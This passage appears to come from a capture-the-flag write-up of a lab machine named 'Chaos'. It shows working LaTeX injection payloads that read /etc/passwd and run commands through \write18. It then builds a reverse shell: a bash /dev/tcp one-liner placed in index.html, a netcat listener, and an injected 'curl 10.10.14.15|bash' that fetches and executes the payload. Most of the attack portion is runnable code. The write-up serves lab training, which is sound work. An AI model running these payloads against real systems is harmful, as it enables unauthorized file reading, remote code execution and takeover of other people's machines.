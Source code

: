 ```bash
burpsuite &> /dev/null & disown
```

```json
content=\input{/etc/passwd}&template=test3
```

<br/>
<img src="{{ site.img_path }}/chaos_writeup/Chaos_48.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/chaos_writeup/Chaos_49.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/chaos_writeup/Chaos_50.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/chaos_writeup/Chaos_51.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

There are other injections, I just have to try one that works. It won't take long to find a successful answer, I have already achieved an **RCE** through a **LaTeXi**. To get a shell on the victim machine, I create an `index.html` file with the necessary code to send me a **Reverse Shell** and with an injection I just have to execute the command that uses `curl` to load the malicious file and interpret it with `bash`. I managed to access the machine.

```bash
python3 -m http.server 80
```

```json
content=\immediate\write18{whoami}&template=test3
content=\immediate\write18{curl 10.10.14.15}&template=test13
```

```bash
nvim index.html

python3 -m http.server 80
nc -nlvp 443
```

> **index.html**

```bash
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.14.15/443 0>&1'
```

```json
content=\immediate\write18{curl 10.10.14.15|bash}&template=test13
```
